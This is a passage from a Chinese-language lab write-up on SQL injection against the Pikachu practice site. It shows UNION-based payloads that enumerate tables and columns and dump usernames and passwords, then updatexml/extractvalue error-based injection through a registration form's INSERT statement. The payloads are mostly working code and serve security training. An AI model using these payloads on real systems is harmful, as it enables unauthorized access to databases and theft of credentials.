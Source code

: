    ```
   ?name=0') union select 1,group_concat(table_name) from information_schema.tables where table_schema="pikachu" --+
   ```


3. 爆列名

   ```
   ?name=0') union select 1,group_concat(column_name) from information_schema.columns where table_name="users" --+
   ```


4. 爆值

   ```
   ?name=0') union select username,password from users --+
   ```




### "insert/update"报错注入

#### 考点：updatexml() & extractvalue() 报错注入

updatexml() & extractvalue()本质上的注入方法就是通过报错的返回来进行传参，两个函数有略微差异，但差别不大

#### 思路：

准备：

- **不能使用联合查询**

- **updatexml()**
  - **3个参数**，`and updatexml(1,payload,1) --+`
- **extractvalue()**
  - **2个参数**，`and extractvalue(1, payload) --+`

post传参，合理构造payload



#### 1、注册，insert语句中进行注入

注册一个账号时，就是在数据库中添加了数据，那么我们可以在注册页面插入我们的注入语句

猜测后台MySQL语句为：

```
insert into user(name,password,sex,phone,address1,address2) value('xxx',123,1,2,3,4)
```


因此可以构造语句类似于：

```
xxx' or updatexml(1,concat(0x7e,database()),0) or '
//其中0x7e为"~"
```


